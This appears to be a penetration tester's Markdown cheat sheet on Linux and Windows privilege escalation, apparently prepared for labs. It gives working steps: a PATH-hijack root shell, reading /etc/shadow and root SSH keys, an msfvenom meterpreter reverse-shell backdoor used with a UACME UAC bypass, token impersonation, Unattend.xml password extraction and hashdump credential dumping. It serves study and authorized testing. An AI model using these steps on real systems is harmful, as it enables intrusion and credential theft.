 # Privilege Escalation
### Linux
- `sudo -l `
  - setenv?
- SUID/GUID
- Look for capabilities
- History Files
- Docker group
- Cron jobs
- SSH Keys
- PATH
- NFS
- Writable /etc/shadow
- Writable /etc/passwd
- Are there scripts that use commands?
  - If the command is executed without full path you can modify PATH variable
  - ` strings <program_name> `
  - you see ` tail -f /var/log/nginx/access.log `
  - ```
    #!/bin/bash
    /bin/bash -p
    ```
  - ` chmod +x /tmp/tail `
  - ` export PATH=/tmp:$PATH `
  - ` ./<program_name> `
- Is there a database? Can I access to it?
  - Look at config file or source code of webpages connecting to db
- Look at the source code of the php,py,jsp ... files of the website
  - Especially login files. Any password?
- Writable authorized_key folder?
  - generate new ssh keys
- Can I read some file with sudo?
  - /root/root.txt, /etc/shadow, /root/.ssh/id_rsa
- Can I write a file in the root user directory?
  - generate ssh key with ssh-keygen and save it in the root user dir
- Kernel Exploits
- Linpeas.sh
- [GTFObins](https://gtfobins.github.io)



### Windows 
<details>
<summary>UAC Bypass</summary>
 
- User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
- UACME
  - Prerequisites:
    1.  User must be a member of the Administrators group.
       - `net localgroup administrators`
    2. Full interactive shell with the victim (a common nc.exe shell is not enough).
       - You can use meterpreter
  - Procedure
    1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
       - `ps` to show process 
       - (ex. `migrate <PID explorer.exe>`)
    3. Upload Akagi (Akagi64.exe if x64)
    3. Create payload with msfvenom
       - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
    5. Use exploit/multi/handler to start a listener
    6. Akagi64.exe 23 <payload_full_path>
       - **NOTE FULL PATH**
    7. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs
      
</details>

<details>
<summary>Impersonate Tokens</summary>
  
- With msfconsole: `load incognito`
- `list_tokens -u`
- `impersonate_token <token_name>`
- You may need to migrate process to a <user> process
  - Ex. `getpid` -> 2628, `ps` ->
    |PID  | PPID | Name | Arch | Session | User | Path|
    | ---  | --- | --- | ---  | --- | --- | --- |
    |2628 | 4780 | WHAYQtsbkO.exe |  | 1 | | |
    |... | ... | ... | ... | ... | ... | ... |
    |2948 | 2036 | explorer.exe | X64 | 1 | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
- `getpid 2948`
- Of course you can repeat the process to become NT AUTHORITY\SYSTEM

</details>

<details>
<summary>Password in configuration file (Unattend.xml)</summary>

- An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
- ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
- Extract password and decode it (from base64)
      
</details>

<details>
<summary>Credential Dumping (Mimikatz - Kiwi - Hashdump)</summary>
  
- Prerequisites: NT AUTHORITY\SYSTEM user
1) Method (Metasploit - Meterpreter)
   - `hashdump`

</details>

- Powershell History
- Saved Windows Credentials
  - cmdkey /list
  - runas /savecred /user:admin cmd.exe
- Scheduled Tasks
- Insecure Permissions on Service Executable
- Unquoted Service Paths
- Insecure Service Permissions
- Windows Privileges
- Unpatched Software

# Resource
https://juggernaut-sec.com/blog/
Resource | Description 
--- | ---
[GTFOBins](https://gtfobins.github.io/) | GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) | Linux Privilege Escalation Awesome Script
[pspy](https://github.com/DominicBreuker/pspy) | Monitor linux processes without root permissions
[Priv2Admin](https://github.com/gtworek/Priv2Admin)  | Windows Privileges with Windows OS privileges

